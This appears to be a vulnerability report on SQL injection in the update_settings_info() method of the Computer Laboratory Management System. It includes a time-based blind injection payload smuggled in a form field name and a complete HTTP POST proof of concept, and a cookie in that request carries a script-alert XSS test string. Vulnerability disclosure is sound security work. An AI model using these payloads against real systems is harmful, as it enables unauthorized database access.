 #### There is a sql injection in the update_settings_info() method in the /classes/SystemSettings.php file of the Computer Laboratory Management System.

Key Code:

![QQ20240830-164624](https://raw.githubusercontent.com/gaorenyusi/img/master/img/QQ20240830-164624.png)

The function iterates over the key-value pairs passed in by the post, and if the `$key` passed in exists in the system_info table, it executes the `update` sql statement, which filters for `$value`.

If it doesn't exist, the `insert` sql statement is executed, and you see that there is no filter for `$value` and `$key`, so you can splice and execute the malicious sql statement

**Vulnerability verification :** 

incoming statements for sql time blinding

```
name="'/**/or/**/(select(1)from(select(sleep(6)))x)#"
```

As shown in the figure, you can see that there is indeed a delay of 6 seconds.

![QQ20240830-173842](https://raw.githubusercontent.com/gaorenyusi/img/master/img/QQ20240830-173842.png)

poc

```
POST /classes/SystemSettings.php?f=update_settings HTTP/1.1
Host: phplms:98
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------274333682728242417833039075277
Content-Length: 218
Origin: http://localhost:98
Connection: keep-alive
Referer: http://localhost:98/admin/?page=system_info
Cookie: Phpstorm-9dbbfc29=4d9b54b0-3f53-4e67-ae29-a3fb9f021bbb; user=admin; name=aa%3Cscript%3Ealert%28111%29%3C%2Fscript%3E; mail=86226999%40qq.com; url=http%3A%2F%2F127.0.0.1; PHPSESSID=leagsbs030cq18dj30osfipt3t; XDEBUG_SESSION=11917
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

-----------------------------274333682728242417833039075277
Content-Disposition: form-data; name="'/**/or/**/(select(1)from(select(sleep(6)))x)#"

111
-----------------------------274333682728242417833039075277--
```
